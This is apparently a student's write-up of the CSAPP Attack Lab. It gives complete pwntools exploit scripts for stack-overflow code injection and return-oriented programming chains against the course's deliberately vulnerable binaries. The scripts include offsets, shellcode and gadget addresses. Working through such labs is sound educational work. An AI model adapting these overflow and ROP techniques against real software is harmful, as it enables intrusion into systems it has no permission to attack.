 # Attacklab

This is the writeup for CSAPP Attacklab

Tool: IDA/Ghidra, pwndbg, pwntools

## Part I: Code Injection Attacks

## Level 1

Simple stack overflow, without the protection of canary and ASLR. Debugger check the stack frame, find out that total 40 bytes offset away from the return address. So make a 40 bytes padding then follow the address of touch1. Done

## Level 2

It checks the argument of touch2 to be the cookie that within the `cookie.txt` file. The stack is executable, so inject a shellcode into the stack then return to the stack to execute the shellcode to make `rdi` to be the correct cookie. 

## Level 3

Level 3 require a pointer to check, however, some part of the stack will be wiped out by the function `hexmatch` and `touch3`, so store the string in somewhere away from the place they wipe out will be fine. 

Solution for Part I:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch1 = p32(0x4017c0)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

# p = gdb.debug(["./ctarget", "-q"])
p = process(["./ctarget", "-q"])

# exp for touch1
# p.sendline(b"A"*40 + touch1);

# exp for touch2
# shellcode = """
#     mov rdi, 0x59b997fa
#     push 0x4017ec
#     ret
# """
# print(len(asm(shellcode)))
# p.sendline(asm(shellcode) + b"A"*27 + p32(0x5561dc78));

# exp for touch3
shellcode = """
    mov rdi, 0x5561dca8
    push 0x4018fa
    ret
"""
print(len(asm(shellcode)))
p.sendline(asm(shellcode) + b"A"*27 + p64(0x5561dc78) + b"59b997fa");

print(p.readall().decode())
```

## Part II: Return-Oriented Programming

### Level 4

Same with Level 2, but with random memory address. So we are unable to access the code that we inject to the stack. The core part on `touch2` is to make `rdi = cookie`. With the help of ROPgadgets, we can find from the `farm.c` that there are two place to reach our goal:  

```assembly
getval_280:
0x4019cc
58 	 	 pop rax
90 	 	 nop
c3 	 	 ret

setval_426:
at 0x4019c5
48 89 c7 mov rdi, rax
90 		 nop
c3 		 ret
```

### Level 5

Same thing. Try to make `[rdi] = cookie`. You may find a gadget in `setval_350` that store `rsp` to `rax`. But the hard thing is that if we place where `rsp` is pointing to be the cookie value, we are unable to further jump to other places because the cookie take the place that original used for another return address. 

So, in order to bypass this issue, we can add an offset to `rsp` by `add_xy` function. So that it will point away from current position and we can store cookie string to other places. 

setval_350 mov rax, rsp

setval_426 mov rdi, rax

getval_481 pop rsp; mov



Solution for Part II:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

p = gdb.debug(["./rtarget", "-q"])
# p = process(["./rtarget", "-q"])

# exp for touch2
# p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x59b997fa) + p64(0x4019c5) + p64(0x4017ec));

# exp for touch3
p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x20) + p64(0x401a42) + p64(0x401a69) + p64(0x401a27) + p64(0x401a06) + p64(0x4019c5)
        + p64(0x4019d6) + p64(0x4019c5) + p64(0x4018fa) + b"59b997fa");

print(p.readall().decode())
```







